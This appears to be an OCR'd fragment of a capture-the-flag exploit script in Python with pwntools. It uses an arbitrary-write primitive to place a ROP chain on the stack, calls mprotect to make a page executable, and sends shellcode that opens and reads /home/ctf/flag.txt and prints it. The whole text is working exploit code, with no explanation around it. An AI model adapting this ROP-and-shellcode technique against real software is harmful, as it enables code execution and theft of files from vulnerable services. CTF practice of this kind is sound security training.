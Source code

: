 ```py
    io.recvuntil('Index: ')
    io.send('1')
    io.recvuntil("Pointer: ")
    io.send(str(returnAddr + (rop_offset * 0x8)))
    io.recvuntil("Content: ")
    io.send(p64(qword))
    io.success("wrote " + hex(qword) + " to " + hex(returnAddr + (rop_offset * 0x8)))



# Create rop chain
libc.address = libcBase
rop = ROP(libc)

writePage = binBase + (0x202100) // 4096 * 4096

rop.mprotect(writePage, 4096, 7)
rop.read(0, writePage, 0x1000)
rop.raw(writePage)
raw_rop = rop.chain()
raw_rop = list(funcy.chunks(8,raw_rop))

ropchain = raw_rop

rop_offset = 0
for i in ropchain:
    i = u64(i)
    add_rop(i, rop_offset)
    rop_offset += 1



# Create shellcode
string_addr = writePage + 0x300

shellcode = asm(shellcraft.read(0, string_addr, 100))
shellcode += asm(shellcraft.openat(0,string_addr,0))
shellcode += asm(shellcraft.read('rax',string_addr,100))
shellcode += asm(shellcraft.write(1, string_addr, 100))

io.recvuntil("exit\n")
io.sendline(b'3')
sleep(1)
io.send(shellcode)
sleep(1)
io.send('/home/ctf/flag.txt')



io.interactive()
```
